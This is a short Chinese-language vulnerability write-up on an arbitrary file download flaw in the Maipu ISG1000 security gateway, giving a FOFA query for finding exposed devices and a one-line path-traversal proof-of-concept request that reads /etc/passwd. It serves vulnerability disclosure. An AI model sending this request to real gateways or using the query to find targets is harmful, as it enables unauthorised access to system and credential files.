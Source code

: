 # 迈普 ISG1000安全网关 任意文件下载漏洞

## 漏洞描述

迈普 ISG1000安全网关 存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

```
迈普 ISG1000安全网关
```

## FOFA

```
title="迈普通信技术股份有限公司"
```

## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110950648.png)

请求的 POC 为

```plain
/webui/?g=sys_dia_data_down&file_name=../etc/passwd
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110950317.png)
